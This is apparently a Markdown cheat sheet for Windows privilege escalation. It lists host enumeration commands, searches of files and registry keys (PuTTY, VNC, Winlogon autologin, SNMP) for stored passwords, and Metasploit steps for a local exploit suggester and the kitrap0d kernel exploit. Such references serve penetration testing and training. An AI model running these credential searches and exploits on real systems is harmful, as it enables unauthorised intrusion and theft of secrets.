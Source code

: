 #### Information Gathering
- systeminfo ***OS info***
- hostname ***host info***
- net users ***users info***
- net user <user_name>
- ipconfig /all ***network interfaces and routing table.***
- route print
- arp -A
- netstat -ano ***network connections and the firewall rules***
- netsh firewall show state
- netsh firewall show state
- netsh firewall show config
- schtasks /query /fo LIST /v ***scheduled tasks, running processes, started services and installed drivers.***
- tasklist /SVC
- net start

#### Search for password
- findstr /si password *.txt
- findstr /si password *.xml
- findstr /si password *.ini
- dir /s *pass* == *cred* == *vnc* == *.config*
- findstr /spin "password" *.*
***password in files***
- c:\sysprep.inf
- c:\sysprep\sysprep.xml
- c:\unattend.xml
- %WINDIR%\Panther\Unattend\Unattended.xml
- %WINDIR%\Panther\Unattended.xml
- dir c:\*vnc.ini /s /b
- dir c:\*ultravnc.ini /s /b 
- dir c:\ /s /b | findstr /si *vnc.ini
***Find all those strings in confing files***
dir /s *pass* == *cred* == *vnc* == *.config*
***In Registry***
- ***Putty*** : reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
- ***SNMP Paramters*** : reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
- ***Windows autologin*** : reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
- ***VNC*** : reg query "HKCU\Software\ORL\WinVNC3\Password"
- ***Search for password in registry*** : reg query HKLM /f password /t REG_SZ /s ***OR*** reg query HKCU /f password /t REG_SZ /s

#### Service available form inside
netstat -ano

#### With meterpreter
> use post/multi/recon/local_exploit_suggester
> set session ?
> run
[...]
use exploit/windows/local/ms10_015_kitrap0d
> options
> run

#### Usefull scrips

- ***Windows Exploit Suggester*** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- ***JustAnotherWindowsScript(Enum)*** https://github.com/411Hall/JAWS
-
